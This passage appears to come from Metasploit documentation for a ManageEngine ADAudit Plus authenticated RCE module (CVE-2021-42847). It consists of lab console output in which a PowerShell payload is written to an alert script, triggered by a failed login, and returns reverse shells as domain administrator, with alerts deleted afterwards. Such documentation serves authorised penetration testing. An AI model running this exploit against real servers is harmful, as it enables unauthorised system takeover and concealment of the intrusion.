 ```
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:54442) at 2022-10-12 12:09:43 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:54441) at 2022-10-12 12:09:43 +0300
[*] Attempting to delete alert UiYnupjyi24
[+] Successfully deleted alert UiYnupjyi24

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```

### ManageEngine ADAudit Plus build 7005 running on Windows Server 2012 R2
```
msf6 exploit(windows/http/manageengine_adaudit_plus_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.91.195:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Using configured authentication domain alias LIES.
[*] Trying to authenticate...
[*] Found 1 configured domain(s):
[*] - LIES.local: LIES.local
[+] Successfully authenticated
[+] The target appears to be vulnerable. The target is ADAudit Plus 7005 and the endpoint for CVE-2021-42847 exists.
[*] Attempting to authenticate again in order to retrieve the required cookies.
[*] Attempting to create an alert profile
[*] Attempting to write the payload to /alert_scripts/mwlhr.ps1
[+] Successfully wrote the payload to /alert_scripts/mwlhr.ps1 in the ManageEngine ADAudit Plus install directory
[+] Successfully created alert profile dVmy0Ygz
[*] Attempting to trigger the payload via an authentication attempt for domain LIES using incorrect credentials.
[*] Trigger attempt completed. Let's hope we get a shell...
[!] Make sure to manually cleanup the mwlhr.ps1 file from /alert_scripts/ in the ManageEngine ADAudit Plus install directory
[*] Powershell session session 1 opened (192.168.91.195:4444 -> 192.168.91.250:41348) at 2022-10-12 12:59:28 +0300
[*] Powershell session session 2 opened (192.168.91.195:4444 -> 192.168.91.250:41347) at 2022-10-12 12:59:28 +0300
[*] Attempting to delete alert profile dVmy0Ygz
[+] Successfully deleted profile alert dVmy0Ygz

PS C:\Program Files\ManageEngine\ADAudit Plus\bin>whoami
lies\administrator
PS C:\Program Files\ManageEngine\ADAudit Plus\bin>
```
